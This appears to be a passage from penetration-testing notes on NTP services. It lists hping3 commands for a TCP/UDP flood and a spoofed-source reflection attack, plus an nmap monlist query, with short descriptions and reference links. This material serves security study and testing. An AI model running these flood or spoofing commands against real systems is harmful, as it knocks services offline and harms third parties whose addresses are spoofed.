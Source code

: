 ## Exploits and Attacks

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Exploits

#### NTP Monlist Exploit

*   **Tool:** \[\[Nmap]], \[\[Custom Scripts]]

    ```bash
    nmap <target_ip> -p 123 -sU --script ntp-monlist 
    ```
* **Description:** Exploits the `monlist` feature of older NTP servers to retrieve a list of the last 600 clients that interacted with the server, potentially revealing sensitive information.

## Resources

| **Website**           | **URL**                                             |
| --------------------- | --------------------------------------------------- |
| RFC 5905              | https://tools.ietf.org/html/rfc5905                 |
| NTP Pool Project      | https://www.ntppool.org/en/                         |
| NTPsec Project        | https://www.ntpsec.org/                             |
| NTP Documentation     | http://doc.ntp.org/4.2.8/                           |
| Chrony Documentation  | https://chrony.tuxfamily.org/doc.html               |
| Wireshark User Guide  | https://www.wireshark.org/docs/wsug\_html\_chunked/ |
| Scapy Documentation   | https://scapy.readthedocs.io/en/latest/             |
| hping3 Manual         | http://www.hping.org/manpage.html                   |
| Linux man-pages       | https://man7.org/linux/man-pages/                   |
| Nmap Scripting Engine | https://nmap.org/book/nse.html                      |
